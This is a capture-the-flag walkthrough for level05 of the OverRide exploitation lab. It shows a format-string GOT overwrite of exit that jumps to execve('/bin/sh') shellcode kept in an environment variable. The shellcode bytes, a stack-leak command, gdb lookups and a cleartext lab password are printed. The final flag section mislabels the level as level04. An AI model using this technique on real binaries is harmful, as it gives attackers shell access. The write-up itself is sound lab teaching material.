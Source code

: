 # level05 walkthrough

## the binary
``` shell
level05@OverRide:~$ ./level05
MARvIN
marvin
```

## methodology
- shellcode + format string attack

The `main` function uses `printf` to output raw array data, which we can leverage to display the variables stored on the stack:
``` shell
level05@OverRide:~$ python /tmp/print_stack.py | ./level05 
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ef 0xffffd5ee (nil) 0xffffffff 0xffffd674 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Next, we store the shellcode in an environment variable and display its address - the shellcode is credited to J. P. Pereira: [x86 execve("/bin/sh") - 28 bytes](https://shell-storm.org/shellcode/files/shellcode-811.html):
``` shell
level05@OverRide:/tmp$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
level05@OverRide:/tmp$ gcc -m32 addr.c -o addr
level05@OverRide:/tmp$ ./addr
SCODE set at 0xffffd788
```

The environment variable will be used to replace the `exit` function, after we identify its address:
``` shell
(gdb) i func exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

Our payload is generated using the attached script. We need to split the shellcode because of the large numbers involved, as we cannot write a full 32-bit value all at once (shellcode is split into two 16-bit parts and separately injected into the lower and upper 2 bytes of the `exit` function):
``` shell
(gdb) p 0xffff
$1 = 65535
(gdb) p 0xd788
$2 = 55176
(gdb) p 55176-8
$3 = 55168
(gdb) p 65535-55176
$4 = 10359
```

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
